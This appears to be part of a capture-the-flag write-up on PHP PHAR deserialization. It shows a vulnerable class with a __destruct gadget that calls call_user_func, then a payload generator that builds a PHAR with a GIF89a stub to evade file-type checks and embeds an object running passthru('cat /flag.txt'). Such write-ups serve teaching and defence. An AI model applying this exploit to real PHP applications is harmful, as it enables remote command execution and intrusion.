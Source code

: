 ### supermarket.php

```php
<?php
function goodbye($customer) {
    echo "Good bye, $customer!\n";
}

class Supermarket {
    public $greet = 'goodbye';
    public $customer = 'dream';
    
    function __destruct() {
        // GADGET: Arbitrary function execution
        call_user_func($this->greet, $this->customer);
    }
}
?>
```

**Gadget Analysis:**

- `__destruct()` magic method executes when object is destroyed
- `call_user_func()` enables arbitrary function calls
- Both `$greet` and `$customer` are controllable public properties
- Perfect RCE gadget: `call_user_func("system", "malicious_command")`

---

## Exploitation Process

### Step 1: Create Malicious PHAR File

**payload_gen.php:**

```php
<?php
class Supermarket {
    public $greet = 'goodbye';
    public $customer = 'dream';
    
    function __destruct() {
        call_user_func($this->greet, $this->customer);
    }
}

// Create PHAR file
$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');

// Add GIF header to bypass file type check
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');

// Create malicious object
$object = new Supermarket();
$object->greet = "passthru";           // Function to execute
$object->customer = "cat /flag.txt";   // Command to run

// Embed object in PHAR metadata
$phar->setMetadata($object);
$phar->stopBuffering();
?>
```
